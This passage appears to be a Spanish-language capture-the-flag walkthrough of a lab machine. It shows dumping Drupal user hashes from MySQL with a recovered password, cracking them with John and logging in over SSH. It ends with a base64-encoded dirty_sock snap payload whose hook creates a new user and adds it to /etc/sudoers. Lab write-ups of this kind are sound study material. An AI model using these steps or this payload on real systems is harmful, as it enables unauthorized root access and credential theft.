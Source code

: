 Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros *mysql* intentamos conectar con el **drupaluser** y functiona.

```bash
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'show databases;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; show tables;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; describe users;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; select name,pass from users;'
```

Encontramos el usuario 'brucetherealadmin' y su contraseña encryptada.

### John {-}

1. copiamos el hash en un fichero llamado `hash`
1. john --wordlist=/usr/share/wordlists/rockyout.txt hash

Ya tenemos contraseña para el usuario *brucetherealadmin*

### SSH {-}

```bash
ssh brucetherealadmin@10.10.10.233
```

ya tenemos la flag user.txt



## Escalada de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
sudo -l
```

Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente 
[Linux Privilege Escalation via snapd (dirty_sock exploit)](https://initblog.com/2019/dirty-sock/). Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

```bash
echo "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" | xargs | tr -d ' '
```
